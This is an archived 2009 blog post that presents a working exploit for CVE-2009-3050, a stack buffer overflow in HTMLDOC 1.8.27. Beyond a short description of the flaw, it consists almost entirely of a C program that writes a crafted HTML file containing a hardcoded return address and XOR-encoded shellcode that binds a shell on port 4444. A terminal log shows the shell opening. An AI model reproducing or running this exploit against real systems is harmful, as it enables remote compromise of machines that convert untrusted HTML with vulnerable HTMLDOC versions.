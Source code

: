 ```yaml
---
author: pank4j
comments: true
date: 2009-08-20 00:34:14+00:00
layout: post
slug: htmldoc-html-file-handling-remote-stack-buffer-overflow-exploit-linux
title: HTMLDOC 'html' File Handling Remote Stack Buffer Overflow Exploit (Linux)
wordpress_id: 49
categories:
- Archive
tags:
- CVE-2009-3050
- exploits
---
```


The vulnerability exists in HTMLDOC version 1.8.27 and earlier due to an unsafe call to `sscanf()` in the `set_page_size()` function in `htmldoc/util.cxx`. This can be exploited to cause a stack-based buffer overflow when an HTML document containing e.g. a specially crafted "MEDIA SIZE" comment is being processed.

{% highlight c %}
/*

HTMLDOC 'html' File Handling Remote Stack Buffer Overflow Exploit (Linux)
Reference: http://www.securityfocus.com/bid/35727

Tested on HTMLDOC 1.8.27 on Debian 5.0 (+ASLR)
Credit: ANTHRAX666 for finding the vulnerability

Coded by Pankaj Kohli

http://www.codepwn.com

pankaj@zion:~/test/htmldoc$ cat /proc/sys/kernel/randomize_va_space
2
pankaj@zion:~/test/htmldoc$ gcc htmldocb0f.c -o htmldocb0f
pankaj@zion:~/test/htmldoc$ ./htmldocb0f

[*] Creating buffer
[*] Exploit file written to sploit.html
Run as: htmldoc -f somefile.pdf sploit.html

pankaj@zion:~/test/htmldoc$ netstat -an --inet | grep 4444
pankaj@zion:~/test/htmldoc$ ./htmldoc-1.8.27/htmldoc/htmldoc -f abc.pdf sploit.html &
[1] 3287
pankaj@zion:~/test/htmldoc$ netstat -an --inet | grep 4444
tcp 0 0 0.0.0.0:4444 0.0.0.0:* LISTEN

*/

#include <stdio.h>
#include <string.h>

/* Port binding (xor encoded) shellcode (port 4444) */
char code[] =
"\xeb\x12\x5b\x31\xc9\xb1\x75\x8a\x03\x34"
"\x1e\x88\x03\x43\x66\x49\x75\xf5\xeb\x05"
"\xe8\xe9\xff\xff\xff\x74\x78\x46\x74\x1f"
"\x45\x2f\xd7\x4f\x74\x1f\x74\x1c\x97\xff"
"\xd3\x9e\x97\xd8\x2f\xcc\x4c\x78\x76\x0f"
"\x42\x78\x76\x1c\x1e\x97\xff\x74\x0e\x4f"
"\x4e\x97\xff\xad\x1c\x74\x78\x46\xd3\x9e"
"\xae\x78\xad\x1a\xd3\x9e\x4c\x48\x97\xff"
"\x5d\x74\x78\x46\xd3\x9e\x97\xdd\x74\x1c"
"\x47\x74\x21\x46\xd3\x9e\xfc\xe7\x74\x21"
"\x46\xd3\x9e\x2f\xcc\x4c\x76\x70\x31\x6d"
"\x76\x76\x31\x31\x7c\x77\x97\xfd\x4c\x78"
"\x76\x33\x77\x97\xff\x4c\x4f\x4d\x97\xff"
"\x74\x15\x46\xd3\x9e\x74\x1f\x46\x2f\xc5"
"\xd3\x9e";

long jmp = 0x0804d938; // push esp; ret 0x0807;

int main(int argc, char **argv, char **envp) {
    char buff[512];
    int i;
    FILE *fd;

    printf("\n[*] Creating buffer\n");
    strcpy(buff, "<!-- MEDIA SIZE 1x1");
    for(i=0; i<275; i++) {
        buff[19+i] = 'A';
    }

    buff[294] = jmp & 0x000000ff;
    buff[295] = (jmp & 0x0000ff00) >> 8;
    buff[296] = (jmp & 0x00ff0000) >> 16;
    buff[297] = (jmp & 0xff000000) >> 24;
    buff[298] = 0;

    strcat(buff, code);

    fd = fopen("sploit.html", "wb");
    fprintf(fd, "%s", buff);
    fclose(fd);
    printf("[*] Exploit file written to sploit.html\n");
    printf("Run as: htmldoc -f somefile.pdf sploit.html\n\n");

    return 0;
}
{% endhighlight %}

